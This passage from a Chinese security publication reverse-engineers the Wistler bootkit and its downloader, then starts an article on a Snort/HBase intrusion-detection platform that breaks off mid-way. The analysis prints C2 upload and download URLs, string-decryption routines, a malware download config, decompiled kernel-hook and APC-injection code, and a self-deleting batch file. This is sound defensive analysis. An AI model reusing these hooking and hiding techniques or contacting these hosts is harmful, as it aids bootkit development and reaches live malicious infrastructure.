将文件信息结构简化为一个大小为 0x0D 的结构，存放在地址 81F3h 处（即病毒代码的代码段内，以保证该数据可以随着代码的迁移复制而得到应用），如图 8 所示，其主要结构如下：

```c
struct fileaddr{
    +0  dword dwflag;     // 标识（？），如果 'R' 标识为 1，如果 'C' 标识为 2，否则为 0
    +4  dword numofsec;   // 数据的扇区地址
    +8  dword sizeofdata; // 数据块的大小（字节）
    +c  byte  diskflag;   // 磁盘标识
}
```

图 8

## 2.3 获取每个文件的属性，恢复正常的 MBR

读取正常 MBR。从读取的文件路径来看，原始的 MBR 是存放在 RFS（即存放病毒感染数据的自定义系统）中的，如图 9 所示。

图 9

原始 MBR 会通过 2.2 中介绍的 RFS 方式找到 MBR 的存放地址和大小。通过查看 RFS 目录可以知道，该段数据被存放在起始扇区为 1 号扇区（即 RFS 中第 2 个扇区的数据段）中，大小为 0x200，即 512 Bytes，如图 10 所示，之后将 MBR 写回 0x7C00。

图 10

## 2.4 Hook 13h 号中断

- 1）通过 413h 查找基本内存的大小，获得的大小以 KB 为单位；
- 2）在基本内存末端分配 4KB 的空间，并将此地址作为程序的基地址，保存在寄存器 ES 中；
- 3）拷贝当前程序中 0xE400 地址为起始、大小为 0xBCC Bytes 的数据到 ES:00 中，即上述分配的 4KB 地址空间中；
- 4）将 13h 号中断的地址（即 0:4Ch 存放的地址）保存到 ES:190h 中；
- 5）将 ES:4Eh 地址填入 ds:4Ch（0:4Ch）处（对应当前程序的 0xE44E 处），即完成对 13h 号中断的 Hook，如图 11 所示。

图 11

之后跳转到 0x7C00 处，执行正常的 MBR 代码，如图 12 所示。

图 12

## 3. Hook 13h Code

上面已将 13h 号中断 Hook，接下来当代码调用 13h 号中断时，就会跳到 Hook 处的代码，此处代码的大致流程如下。

### 3.1 检测 13h 号中断地址

检测 13h 号中断地址处的地址是否为病毒 ShellCode 的地址。在 Hook 完 13h 号中断到进入系统过程中，有可能有第三方程序或者病毒加密 13h 中断处的地址和函数。这里如果检测到 13h 地址被篡改，则将 190h 处存放的原 13h 号中断地址替换为篡改后的 13h 号中断地址，并直接跳转到正常的 13h 地址代码处执行。如图 13 所示。

图 13

### 3.2 判断 13h 中断的子功能号

如果子功能号不为 2h（读）或者 42h（扩展读），则通过 JMP 的方式跳转到 CS:190 处，即 13h 的正常函数入口地址处，如图 14 所示。

图 14

如果子功能号为 2h（读）或者 42h（扩展读），则通过 Call 方式执行 CS:190 处的代码（13h 的正常函数），即执行完还可以返回继续执行待执行的病毒代码。

### 3.3 定位 NTLDR 的特征并进行 Hook

- 1）Hook 13h 子功能 2h 和 42h，对每次读取的数据查找特征 `8B F0 85 F6 74 21/22 80 3D`，确定要 Hook 的位置。
- 2）将 Hook 处的 6 个字节放在当前地址空间的 0x3D2 偏移处；
- 3）通过绝对地址的 Call 指令 `15FF`，Hook 查找到的地址点。此处 Shellcode 地址为当前地址空间的 0x1D8 偏移处，如图 15 所示。

图 15

## 4. Hook NTLDR 的 Shellcode

进行到这里，代码就进入了保护模式（32 位）。NTLDR 文件其实包含两个文件：一个 16 位的 BIN 文件和 32 位的程序 OSLoad.exe。这里的 Hook 点实际上是对 OSLoad.exe 的 Hook。

### 4.1 关闭写保护位 WP

- 1）CR0 的位 16 是写保护（Write Protect）标志。当设置该标志时，处理器会禁止超级用户程序（例如特权级 0 的程序）向用户级只读页面执行写操作。
- 2）在函数内还会计算 ESI 的值，ESI 指向的数据将是下一个 Hook 的 ShellCode 代码数据，如图 16 所示。

图 16

### 4.2 恢复 3.3 中的 Hook 点

在 3.3 中，我们知道 NTLDR Hook 点的原 6 个字节存放在了当前地址空间偏移 0x3D2 处，这里会从 0x3D2 处恢复这 6 个字节填充到原地址，如图 17 所示。

图 17

### 4.3 通过特征查找到代码中的 LDR 结构，继而查找到内核文件

- 1）获取当前程序（OSLoad.exe）的基址。
- 2）从基址处查找特征码 `C7 00 40 46 34 * A1`，如图 18 所示。

图 18

- 3）特征 `A1` 后面的一个 DWORD 即是一个指向 BlLoaderBlock 结构的指针，如图 19 所示。

图 19

- 4）BlLoaderBlock 结构其实是一个 LDR 结构，代码如下：

```c
struct _BlLoaderBlock
{
    +00h   LIST_ENTRY      module list links
    +08h   [10h]           ???
```

| 偏移 | 类型 | 说明 |
|---|---|---|
| +18h | PTR | image base address |
| +1Ch | PTR | module entry point |
| +20h | DWORD | size of loaded module in memory |
| +24h | UNICODE_STRING | full module path and file name |
| +2Ch | UNICODE_STRING | module file name |

```
}
```

- 5）BlLoaderBlock 结构中偏移 +24 处的全路径即是一个内核文件（ntkrnl）的文件全路径。这里的文件名会根据具体环境的不同而不同，有 4 个不同的文件名，分别对应以下 4 种不同的环境：
  - ntoskrnl - 单处理器，不支持 PAE
  - ntkrnlpa - 单处理器，支持 PAE
  - ntkrnlmp - 多处理器，不支持 PAE
  - ntkrpamp - 多处理器，支持 PAE
- 6）BlLoaderBlock 结构中偏移 +18 处即为内核程序在内存中的基地址。

### 4.4 Hook 内核文件

通过 4.3 查找到的 BlLoaderBlock 结构，可以定位到内核文件基址、入口点等一些信息。通过特征查找到 `call _IoInitSystem@4` 处：如果内核为单处理器则查找特征 `6A 4B 6A 19 89 ?? ?? ?? ?? ?? ?? E8 * E8`，如果内核为多处理器则查找特征 `6A 19 6A 4B 89 ?? ?? ?? ?? ?? ?? E8 * E8`，如图 20 所示。

图 20

找到目标地址后，获取 `_IoInitSystem@4` 的函数地址，Hook 函数 `_IoInitSystem@4` 的入口点。我们从 4.1 知道，ESI 一直保存当前地址空间偏移 0x3D2 的实际地址。这里将在当前地址空间偏移 0x3D2 处 Copy 0x7FA 个字节到内核文件以 0x1000 对齐后的地址空间内，如图 21 所示。

图 21

之后将 3D2h+0Eh（即当前地址空间 3E0h 处）的代码作为 Hook 点的 ShellCode 代码入口点，即整个程序的第 3 个 Hook 点——Hook3。最后恢复写保护位 WP，如图 22 所示。

图 22

## 5. Hook3

### 5.1 关闭写保护位 WP

实现同 4.1。

### 5.2 通过修改 IoInitSystem 函数返回栈跳转至 Shellcode

- 1）恢复 IoInitSystem 入口点的代码。
- 2）修改 IoInitSystem 函数返回栈，使得函数执行完后返回到下一个 ShellCode 中去，如图 23 所示，之后恢复写保护位 WP。

图 23

### 5.3 获取一些内核函数

当函数 IoInitSystem 执行完后会返回到这里。

- 1）选择一个高特权等级 RPL 的选择子（等效于提权操作）。DS 段所在选择子的 DPL 在这里即为请求特权等级 RPL，只有 RPL < DPL（RPL 特权等级高于 DPL）时，RPL 的段才能访问 DPL 的段数据，如图 24 所示。

图 24

- 2）通过 `sidt` 获取系统的 IDT（中断向量表），如图 25 所示。

图 25

- 3）取 IDT 中第一个函数地址。IDT 中存放的是系统内核的一些函数地址，所以这里实际上是得到了内核进程空间的一个导出函数地址。
- 4）将得到的函数地址用 0x1000 对齐，并以 0x1000 为对齐值递减查找内核的 PE 文件头的 MZ 标识和 PE 标识，如图 26 所示。

图 26

- 5）找到内核文件的 MZ 标识后，再通过特征码 `0D 24 F8 81 FB` 找到内核程序的导出表 EAT，将导出名称表中的导出函数计算一个 Hash 值，如图 27 所示。

图 27

- 6）通过这个 Hash 值找到要查找的函数地址。这里主要查找如下几个函数：ExAllocatePool、ExFreePool、KeLoaderBlock、NtClose、NtCreateFile 和 NtReadFile。

### 5.4 将病毒文件加载到内存中并执行

通过 5.3 找到的内核函数将病毒文件加载到内存。从 RFS 的目录表可以看到 5 个文件，分别如表 1 所示。

| 序号 | 文件名 | 文件MD5 | 说明 |
|---|---|---|---|
| 1 | 0F13C73AAB0D4E000028038C99D3125A |  | 原始 MBR |
| 2 | 8f58eadd7bfff0c557d4b5e9656957a5 |  | HOOKBIN 数据 |
| 3 | 15137ef73def24f4f00239628a70df43 | deeb3d3d52c1e2b40b025b1ce33da88d | 驱动程序 |
| 4 | 9d02867239b96bff7d5e78a234aa4955 | edd9be34ae5bba211a885550af23db05 | 驱动程序 |
| 5 | 8da19a3b12d6e94b8e9cf506e79975e8 | 5a6ccb4f1677c33e5bda2ebcaa7359d7 | EXE 程序 |

表 1

首先回忆 2.2 中描述的大小为 0x0D 的文件信息结构。上面提到这个结构是存放在代码段中的，几经周折，数据随着代码的迁移复制仍然存在。

```c
struct fileaddr{
    +0  dword  dwflag;      // 标识（要），如果'R'标识为1，如果'C'标识为2，否则为0
    +4  dword  numofsec;    // 数据的扇区地址
    +8  dword  sizeofdata;  // 数据块的大小（字节）
    +c  byte   diskflag;    // 磁盘标识
}
```

所以，这里要想加载这些文件，会先找到这些文件的磁盘信息结构，如图 28 所示。

图 28

- 1）找到 0x0D 大小的结构之后，接下来就是试图加载这些 PE 文件到内存，如图 29 所示。

图 29

- 2）通过 5.3 里找到的函数 NtCreateFile、NtReadFile 等函数将相应的 PE 文件载入内存，并将文件按照 RVA 的对齐值对齐，如图 30 所示。

图 30

- 3）找到 PE 的 OEP 地址，通过 Call 的方式调用 OEP，达到执行的目的，如图 31 所示。

图 31

### 5.5 返回至 IoInitSystem 正常的返回地址

在 5.2 中，我们知道 IoInitSystem 的 Hook 代码会通过修改函数返回栈的方式，使 IoInitSystem 执行完后返回到 ShellCode 代码中去。而当这段 Shellcode 执行完后，将返回至 IoInitSystem 的真正返回地址，否则系统将无法正常执行，如图 32 所示。

图 32

## 下载器

## 1. 基本信息

病毒名：Win32.Trojan.Cloud.hln

病毒类型：EXE

MD5：5a6ccb4f1677c33e5bda2ebcaa7359d7（母体）

文件大小：25008 字节

文件名：8da19a3b12d6e94b8e9cf506e79975e8

加壳类型：UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo

开发工具：VC

## 2. 危害简介

程序不会结束，一直驻留内存中，不停下载网络配置信息，检测系统环境中对应的游戏，并针对性下载盗号木马。

## 3. 详细介绍

- 1）创建互斥变量 WEIANTI，如果创建失败，则退出程序。
- 2）查找驱动防火墙进程 DrvAnti.exe，如图 33 所示。

图 33

- 3）收集电脑的用户名、MAC 地址等敏感信息，通过 InternetOpenA 等 API 上传至指定 URL，上传地址为：http://219.138.163.58:800/count/count.asp，如图 34 所示。

图 34

- 4）解密下载地址，下载地址为 183.60.109.154/QNew003.jpg，解密算法如下：

```c
bykey = 'A';
for(int i = 0; i < strlen(bybuf); ++i)
{
    bybuf[i] -= bykey;
    bybuf[i] ^= bykey;
    bybuf[i]++;
    nlen++;
}
```

- 5）通过 gethostbyname、inet_ntoa 检测要下载地址的 DNS 映射，如果 DNS 被劫持为 127.0.0.1，则删除系统的 Host 文件。
- 6）通过模拟协议的方式读取网络配置文件。此下载链接必须通过模拟协议的方式去读取下载，如果通过 URL 直接下载则无法实现下载。

```c
"GET /%s ","HTTP/1.1\r\nAccept: */*\r\nAccept-Language: zh-cn\r\nUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)\r\nHost: %s\r\nConnection: Keep-Alive\r\n\r\n");
```

- 7）网络配置文件并没有在本地磁盘落地，而是直接读取到内存中，如图 35 所示。

图 35

- 8）解密下载的配置信息，解密算法如下：

```c
bykey = '6';
for(int i = 0; i < strlen(bybuf); ++i)
{
    bybuf[i] -= bykey;
    bybuf[i] ^= bykey;
    bybuf[i]++;
    nlen++;
}
```

- 9）解密完的配置信息目前包含 55 个下载地址，部分内容如下：

```text
[down]
count=55
name1=l2.bin
url1=http://58.53.128.40:800/game/tiantang.exe
name2=ldjgame.exe
url2=http://58.53.128.40:800/game/ldj.exe
……
name20=gameclient.exe
wind20=梦幻诛仙
```

```ini
path20=c:\\windows\\vmwaresMHZX.exe
url20=http://58.53.128.40:800/game/mhzx.exe
......
name55=game.exe
wind55=斗战神
url55=http://58.53.128.40:800/game/dpcq.exe


```

其中 count 表示下载列表的个数，url[num] 对应下载地址，name[num] 对应盗号木马盗取的目标游戏的对应进程名，wind[num] 对应盗号木马盗取的目标游戏的窗口名，path[num] 对应木马样本下载后存放在本地的文件全路径。

- 10）有针对性地下载木马，通过上述配置信息中提供的进程名、窗口名等信息，遍历内存中的进程和进程的窗口名，如果匹配上，则下载相应的木马到配置信息指定的文件路径；如果配置信息中没有指定的文件路径，则下载样本到用户临时目录下“%Temp%\ClientS%08X.exe”（%08X 为一个随机的 8 位字串），如图 36 所示。
图 36

- 11）如果找不到上述配置信息中的 down、count 等 KEY，则 Sleep 3000 秒后再次进入下载循环。

- 12）如果 count = 1，即如果网络配置信息中没有木马的下载地址，则等待 1 个小时后再去尝试进入下载循环。

## 感染 MBR 的驱动

### 1. 基本信息

- 病毒名：Win32.Trojan.bootkit.vob  
- 病毒类型：SYS  
- MD5：38e1e343cd27521f719fd735a4a6ebd8（感染 MBR 驱动）  
- 文件大小：15360 字节  
- 文件名：GPlug05C340F5G.sys  
- 加壳类型：无  
- 开发工具：VC+WDM  

### 2. 危害简介

母体释放（感染 MBR，对抗检测与恢复 MBR）GPlugxxxxx.sys 驱动。

- 1）对抗 MBR 检测与恢复：对磁盘设备栈中 Disk.sys（磁盘管理层设备）的 Read 和 Write 的 IRP 派遣函数进行 Hook，防止安全软件对 MBR 进行检测与恢复。  
- 2）直接对磁盘的 MBR 进行感染：用 IDE IO 端口直接对磁盘进行读写（更加底层地躲避部分防护软件的监控）。  

### 3. 详细介绍

- 1）驱动创建 FlyBirds 设备对象与 R3 病毒进行通信，如图 37 所示。
图 37

- 2）Hook Disk.sys 驱动，防止安全软件对 MBR 进行检测与恢复。  
- A）Hook Disk.sys 驱动对象的 IRP_MJ_READ 和 IRP_MJ_WRITE 派遣函数。  
  如图 38 所示，得到 Disk.sys 驱动对象，对驱动对象中的 IRP_MJ_READ 和 IRP_MJ_WRITE 派遣函数进行替换 Hook，如图 39 所示。
图 38
图 39

- B）Hook 的 write 和 read 函数中对发往设备管理设备 IRP 进行处理，禁止读写 MBR，设备名为 DR(X)，设备类型为 FILE_DEVICE_DISK。  

枚举所有设备，获得磁盘管理设备，类型为 FILE_DEVICE_DISK，如图 40 所示。
图 40

对 read 和 write 进行处理：如果是读/写磁盘的第一个扇区（前 512 字节）则返回，不进行真正的读/写，如图 41 所示。
图 41

直接对磁盘的 MBR 进行感染：用 IDE IO 端口直接对磁盘进行读写，通过接受 R3 病毒母体发来的两个 IoControlCode——22001Ah、22001Ch，分别对 MBR 进行直接写感染和检测病毒 MBR 是否被还原，以进行再次感染。

当 IoControlCode == 22001Ah 时，R3 通过 IRP.AssociatedIrp.SystemBuffer 传递感染的 MBR，再进行直接 IO 读写磁盘感染 MBR，如图 42 所示。当 IoControlCode == 22001Ch 时，R3 通过 IRP.AssociatedIrp.SystemBuffer 传递感染的 MBR，对现有的 MBR 进行检查，看是否已经被恢复，如果已经被安全软件恢复则重新感染。

## BOOTKIT 启动的驱动程序

### 1. 基本信息

- 病毒名：Win32.Trojan.bootkit.dmbx  
- 病毒类型：SYS  
- MD5：edd9be34ae5bba211a885550af23db05（感染 MBR 加载的注入驱动）  
- 文件大小：9216 字节  
- 文件名：9d02867239b96bff7d5e78a234aa4955  
- 加壳类型：无  
- 开发工具：VC+WDM  

### 2. 危害简介

注入 winlogon.exe 拉起下载者驱动。此驱动为病毒感染 MBR 后，病毒加载的磁盘末尾驱动，危害为：在磁盘中查找母体写入的恶意下载者文件，并释放在“\\?\\C:\\System Volume Information\\Sys%08X.exe”下，%08X 为随机数；驱动利用 APC 注入 shellcode（用来运行释放的恶意下载者 EXE）到 winlogon.exe。

### 3. 详细介绍

在磁盘中查找下载者文件位置，如图 42 所示。find_file_offst 函数利用病毒自定义的文件系统，按 MD5 文件名进行对比查找，并返回其在磁盘中的位置，如图 43 所示。

```c
// 打开第一个物理磁盘
RtlInitUnicodeString(&DestinationString, L"\\??\\PhysicalDrive0");
ObjectAttributes.RootDirectory = 0;
ObjectAttributes.SecurityDescriptor = 0;
ObjectAttributes.SecurityQualityOfService = 0;
ObjectAttributes.Length = 24;
ObjectAttributes.Attributes = 512;
ObjectAttributes.ObjectName = &DestinationString;
if (ZwCreateFile(
    &h_Phy_0_DriverFileHandle,
    0xC0100000u,
    &ObjectAttributes,
    &IoStatusBlock,
    0,
    0,
    3u,
    1u,
    0x20u,
    0,
    0))
  result = 0;
else
  result = find_file_offs(...);

// 在物理盘中查找病毒文件并返回其在磁盘中的偏移
```

图 42

```c
while (v14-- != 1);
v5 = v16;
if (v16)
{
  *(_DWORD *)a2 = v16;
  ByteOffset = ...;
  if (ZwReadFile(FileHandle, 0, 0, 0, &IoStatusBlock, &v7, 0x200u, &ByteOffset, 0))
    return 0;
  if (strncmp(&v8, "dec7f9619477b0ab1591aab2cc632364", 32u)
   && strnicmp(&v9, "8f58eadd7bfffc557d4b5e9656957a5", 0x20u))
    v6 = 6;
  else
    v6 = 2;
}
// 病毒自定义文件名进行对比查找
```

图 43

查找 winlogon.exe 进程，并在 winlogon.exe 的非系统线程 APC 注入 Shellcode。之后通过 EPROCESS.ActiveProcessLinks 遍历系统活动进程，并根据 EPROCESS.ImageFileName 进程镜像名找到 winlogon.exe 的 EPROCESS 结构，如图 44 所示。

```c
this_Eprocess = pEprocess;
*(_DWORD *)pEprocess = 0;
*(_DWORD *)pEThread = 0;
v5 = IoGetCurrentProcess();
v4 = (int)((char *)v5 + dw_ActiveProcessLinks_offset);
v11 = (int)((char *)v5 + dw_ActiveProcessLinks_offset);
while (strcmp((const char *)(v4 + dw_ImageFileName_offset), lpszProcessName))
{
  v4 = *(_DWORD *)v4;
  if (v11 == v4)
    goto LABEL_6;
}
*(_DWORD *)this_Eprocess = v4 - dw_ActiveProcessLinks_offset;
// 获取当前 Eprocess 结构地址，并遍历 process 活动进程列表


```

图 44

找到 winlogon.exe 进程的 EPROCESS 后，通过其 ThreadListHead 遍历 winlogon 中的所有线程，再通过 PsIsSystemThread 判断是否为系统线程，找到非系统线程返回提供给 APC 注入函数，进行进程注入，如图 45 所示。
图 45

找到 winlogon.exe 进程的 EPROCESS 和非系统线程的 ETHREAD 之后，进行 APC 注入 Shellcode，如图 46 和图 47 所示。
图 46
图 47

ShellCode 主要是调用系统 API CreateProcess 拉起 Sys%08X.exe 下载者，获得 Kernel32.dll 的导出函数 CreateProcess 地址，如图 48 所示。
图 48

再通过 Hash 从 Kernel32 中获得 CreateProcess API 的地址，如图 49 所示。

```asm
mov     eax, [edi]
call    Hash_GetAPI
or      eax, eax
jnz     short loc_1466B
mov     eax, [edx]
cmp     eax, ecx
jz      short loc_140C3
mov     edx, eax
jmp     short loc_14053
```

图 49

调用获得的 CreateProcess 拉起恶意下载者，如图 50 所示。

```asm
rep stosd
mov     eax, [esp+74h+arg_DesdProcess]
push    0
push    0
push    0
push    0
push    0
push    0
push    0
push    dword ptr [eax]
call    dword ptr [CreateProcess]


```

图 50

## 母体分析

### 1. 基本信息

- 病毒名：Win32.TenThief.Wistler.cjgy  
- 病毒类型：EXE  
- MD5：A1C8E75D22EA85770B25FF4F2EAF12A5（感染 MBR 加载的注入驱动）  
- 文件大小：203002 字节  
- 加壳类型：无  
- 开发工具：VC+  

### 2. 危害简介

释放 SqlWriter.exe 文件并启动，SqlWriter.exe 会释放驱动等文件。

### 3. 详细介绍

创建互斥变量 WEIANTI，在 C:\\WINDOWS\\system32 下生成 SqlWriter.exe 程序，之后启动 SqlWriter.exe 进程，如图 51 所示。
图 51

## SqlWriter.exe 分析

### 1. 基本信息

- 病毒名：Win32.TenThief.Wistler.cjgy  
- 病毒类型：EXE  
- MD5：6fa44fad1ec81c6d15e2a75d07d75819  
- 文件大小：37888 字节  
- 文件名：SqlWriter.exe  
- 加壳类型：UPX 0.89.6 / 1.02 / 1.05 - 1.24 -> Markus & Laszlo  
- 开发工具：VC+  

### 2. 危害简介

释放驱动文件 GPlug05C340F5G.sys（文件名中的数字为随机字串），其 MD5 为 38e1e343cd27521f719fd735a4a6ebd8，然后会释放一个 DLL 文件 RwmvtgC.dll，该 DLL 会通过创建服务的方式启动释放的驱动文件。

### 3. 详细介绍

读取程序中 ID 为 DLL 的资源，在 C:\WINDOWS\system32\ 目录下生成 RwmvtgC.dll 文件。先在 %Temp% 目录下生成随机文件 7198812_res.tmp，并设置文件时间为系统时间，将临时文件拷贝到 C:\WINDOWS\system32\RwmvtgC.dll，之后删除临时文件，并加载 RwmvtgC.dll，执行导出表中的 Install 函数，然后 FreeLibrary，执行 cmd 命令，删除 SqlWriter.exe 程序，如图 52 所示。
图 52

RwmvtgC.dll 的 Install 函数会注册一个 SVCHOST 服务，如图 53 所示。

```cpp
v14 = sub_100038D0(lpServiceName, lpDisplayName, a3, "%SystemRoot%\\System32\\svchost.exe -k krnlsruc");
memset(&subKey, 0, 0x104u);
wsprintfA(&subKey, "SYSTEM\\CurrentControlSet\\Services\\%s\\Parameters", lpServiceName);
if (RegCreateKeyA(HKEY_LOCAL_MACHINE, &subKey, &hKey)) { ... }
...
strcpy(&subKey, "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Svchost");
if (RegOpenKeyExA(HKEY_LOCAL_MACHINE, &subKey, 0, 0xF003Fu, &hKey)) { ... }
v5 = RegSetValueExA(hKey, "krnlsruc", 0, 7u, (const BYTE *)lpServiceName, strlen(lpServiceName)+1);
RegCloseKey(hKey);


```

图 53

母体在 C:\WINDOWS\system32 目录下生成随机 GPlug4924270AG.sys 驱动，并启动 SYS 服务，其注册表项如图 54 所示。
图 54

通过 DeviceIoControl 控制驱动程序，然后生成 BAT 文件，自删除，如图 55 所示。
图 55

该 BAT 文件的内容如下：

```bat
:DELFILE
del "C:\Documents and Settings\Administrator\桌面\A1C8E75D22EA85770B25FF4F2EAF12A5.exe"
if exist "C:\Documents and Settings\Administrator\桌面\A1C8E75D22EA85770B25FF4F2EAF12A5.exe" goto :DELFILE
del "17946B55.bat"


```

至此，Wistler 木马就分析完毕了，从中我们可以清晰地了解到该木马的运行流程，如何实现自身的隐藏、加载与删除。

（完）

## 基于 Snort、Mysql、Hadoop 和 HBASE 实现异常流量检测与入侵调查系统

文/图 linxinsnow [N. N. U]

检测企业网络环境中黑客的入侵行为是一个难题。对此，一般有两种手段：基于误用检测（misused-based）方法和基于异常检测（anomaly-based）方法。前者通过总结和收集黑客在攻击发生时采用的工具或者行为特征，对网络流量进行模式匹配并告警。优点是检测速率快，告警信息明确，对于已知漏洞可以做到实时检测，如常见的 IPS、IDS 类设备。但是这种基于特征的检测手段，对于未知漏洞，或者经过精心构造、编制的攻击手段，检测能力不足，特别是针对近年来盛行的 APT 攻击和数据窃取、内部犯罪等行为，无法检测。同样，这种检测方式需要生产厂商长期维护一个昂贵的漏洞库和签名库，并且更新永远滞后于攻击行为。而后者的检测方法，是基于网络中任意一个节点元素的流量特征行为，通过特定算法建立访问模型或控制矩阵，通过模式匹配和相似度分析，从庞大的流量中挖掘出黑客的攻击行为。本文就是基于后者的检测概念，通过几款开源软件，打造自己的异常流量检测与入侵调查平台。

## 系统设计

本人所在的公司在架构上属于双业务中心，全国多个分公司专线接入，统一上网出口。根据分公司不同，在网络规划上，将每个分公司使用不同的 VLAN 进行了隔离，但是 VLAN 之间的访问是没有访问控制策略的。针对这种情况，为了能够更好地检测可能发生的入侵和内部恶意行为，需要将所有的 VLAN 之间访问流量、上网流量全部进行捕获。初步计算下来，整体的流量达到几个 G，因此必须进行分布式采集和分布式数据库存储。针对每个流量采集器的线性流程如图 1 所示。
图 1

为了防止可能由于网络原因出现的后端分布式数据库连接中断，中间采用了多级架构，其中的缓存数据库用于进行前端流量采集的缓存，然后通过采集器将 MySQL 数据库中的流量记录全部输入分布式数据库 HBase 中，通过 HBase 进行存储、建模和调查。

## 1）流量采集器

使用开源的 Snort，将多余的 Preprocessor 和规则全部删除，只留下采集所有流量的规则与黑白名单功能，如图 2 所示。

```txt
# site specific rules
include c:\snort\rules\linxinsnow.rules
```

图 2

其中 linxinsnow.rules 的内容如图 3 所示。

```txt
log tcp any any -> any any (msg:"TCP"; sid:50001)
log udp any any -> any any (msg:"UDP"; sid:50002)
```

图 3

用于记录所有的流量信息，但不在乎包的内容，保留了 White_list.rules 和 Black_list.rules 用于后期对流量的优化功能。配置 Snort 采用 MySQL 数据库的方式保存攻击记录，如图 4 所示。

```txt
# database
output database: log,mysql,user=**** password=**** dbname=snort2 host=********


```

图 4

启动 Snort 的命令行参数为：`Snort.exe -c linxinsnow.conf -N`，其中的 `-N` 表示不在本地保存数据，这样可以防止采集器的硬盘被占用。运行效果如图 5 所示。
图 5

由于关闭了相关的 Preprocessor 处理功能，在流量达到几百 M 的网口上，CPU 也没有超过 10%。

## 2）前端缓存数据库

前端缓存数据库在选型上没有太多考虑，因为 Snort 与 MySQL 结合较好，所以采用了 MySQL 数据库，但在进行信息收集和处理的时候，需要注意几点：

- Snort 送到 MySQL 中的记录并不是流量访问记录，需要通过 Base 平台进行转换；
- 由于采集器需要对 MySQL 进行非常频繁的查询、删除操作，因此采用 MySQL 的默认数据库引擎，即利用磁盘进行存储的方式无法满足，非常容易让 MySQL 宕机，因此需要使用 Memory 表的方式进行存储。
- 需要修改 MySQL 的相关配置，根据服务器的内存进行极限调整，尽量增大缓存的数据数量，让 MySQL 的 Memory 表能够最大化利用。

其中的 Base 是一款开源的 Snort 前端，采用 PHP 界面。Base 的作用是对 Snort 的原始数据日志进行分析，数据类似“IP1:PORT1 -> IP2:PORT2:事件”这样的规范格式。因此，我们在对数据采集的时候，需要在采集器上做一个定时脚本，调用 PHP 访问 Base 的首页，也就是对 Snort 进行数据分析的程序。调用的链接为 `php /var/www/base_main.php`，如图 6 所示的数字代表目前已经处理完成的访问记录数，刷新 Base 页面的频度根据流量大小进行调整。
图 6

Base 的前端页面效果如图 7 所示。
图 7

## 3）采集器

考虑到前端缓存数据库为 MySQL，后端的数据库接口使用了 thrift 的 HBase，这里使用了 Python 作为中间采集器的开发语言。虽然相对来说，Python 的执行效率可能有一些弱势，但我们使用的是高并发多线程的方式，在提高线程数的情况下，可以忽略代码效率。

数据采集部分如图 8 所示，使用了 threading 的 Lock 模块进行线程的同步，提取每次查询最后一条记录的 CID 作为判断条件，当多线程查询发现 CID 相同时，就会进入 3 秒的等待，防止过于频繁请求，每次查询的数量为 1W 条，当结果小于这个数量时，线程也会进入休息等待。

```python
conn=pymysql.connect(host='******',user='*****',passwd='******',db='snort2',port=3306)
cur=conn.cursor()
lock.acquire()
count=cur.execute('select * from acid_event  order by cid limit 10000;')
fi = open("conn.log","a")
fi.write(str(count)+"\n")
fi.close()
results=cur.fetchall()
result = []
if count == 0:
    cur.close()
    conn.close()
    lock.release()
    import time
    time.sleep(3)
    continue
if count > 0:
    if last == str(int(results[-1][1])):
        cur.close()
        conn.close()
        lock.release()
        import time
        time.sleep(3)
        continue
last = str(int(results[-1][1]))
print 'there has %s rows record ,cid>=' % count,last
```

图 8

数据清理部分如图 9 所示，这部分根据前面查询出来的 CID，将原有的数据进行清理。需要注意的是，由于部署了 BASE，需要将 ACID 的几个表进行同步删除，否则将会出现“爆表”。

```python
result.append('%s:%s'%(int(time.mktime(s))+startday,startday,str(src),str(dst),str(sport)))
count=cur.execute('delete from data where cid <=' +last+';delete from opt where cid <=' +last+';delete from tcphdr where cid <=' +last+';delete from event where cid <=' +last+';')
conn.commit()
cur.close()
conn.close()
print "DELETE"
lock.release()
print "HBASE ADD"
```

图 9

数据插入部分如图 10 和图 11 所示。

```python
global last
transport = TSocket.TSocket('HADOOP-1', 9090)
transport = TTransport.TBufferedTransport(transport)
protocol = TBinaryProtocol.TBinaryProtocol(transport)
client = Hbase.Client(protocol)
transport.open()
tmp = [Mutation(column = 'etc:protocal', value = 'TCP')]
#client.mutateRow('snort','1234567111',tmp,{})
```

图 10

```python
print "DELETE"
lock.release()
print "HBASE ADD"
for line in result:
    client.mutateRow('snort',line,tmp,{})
print "HBASE END"
```

图 11

## 4）分布式数据库

分布式数据库使用的是开源的 K/V 数据库 HBase，由于我们保存的是全流量信息，需要进行后续分析建模，因此查询效率与保存都是一个很大的问题。

HBase 数据库使用 K/V 架构，因此在处理 Key 查询的时候，效率是最高的。为了满足它的特性，我们需要将每一条访问记录都当作 Key 的形式进行组合，建立如图 12 所示的关系，用于解决图 13 和图 14 所列的 4 个问题。

```python
result.append('1'+str(src)+str(int(time.mktime(c)))+str(sport)+str(dst)+str(dport))
result.append('2'+str(dst)+str(int(time.mktime(c)))+str(dport)+str(src)+str(sport))
result.append('3'+str(int(time.mktime(c)))+str(src)+str(dst)+str(sport)+str(dport))
result.append('4'+str(int(time.mktime(c)))+str(dst)+str(src)+str(dport)+str(sport))


```

图 12
图 13
图 14

为什么会有这样的不同呢？我们可以进行一下抽象简化来说明。前两个问题，解决某段时间内某个 IP 的具体行为建模；后两个问题，解决对 IP 的行为调查。因此，每一条访问记录，实际上都被整理成了 4 个 Key，或者 Hash 值，使得我们后期的查询分析变得很快速。

## 5）分布式文件系统

为了实现大数据的存储和查询，我们采用 Hadoop+Zookeeper，部署 HBase 的形式构建基础架构，使用 12 台 Linux 物理机，如图 15 所示。

- ubuntu-1  192.168.0.221  hadoop namenode / hbase HMaster
- ubuntu-2  192.168.0.222  hadoop datanode / hbase HRegionServer
- ubuntu-3  192.168.0.223  hadoop datanode / hbase HRegionServer
- ubuntu-4  192.168.0.224  hadoop datanode / hbase HRegionServer
- ubuntu-5  192.168.0.225  hadoop datanode / hbase HRegionServer
- ubuntu-6  192.168.0.226  hadoop datanode / hbase HRegionServer
- ubuntu-7  192.168.0.227  hadoop datanode / hbase HRegionServer
- ubuntu-8  192.168.0.228  hadoop datanode / hbase HRegionServer
- ubuntu-9  192.168.0.229  zookeeper
- ubuntu-10  192.168.0.230  zookeeper
- ubuntu-11  192.168.0.231  zookeeper
- ubuntu-12  192.168.0.232  hadoop second namenode / hbase HMaster

图 15

编译运行 Thrift 作为 HBase 与 Python 的接口，如图 16 所示。

```bash
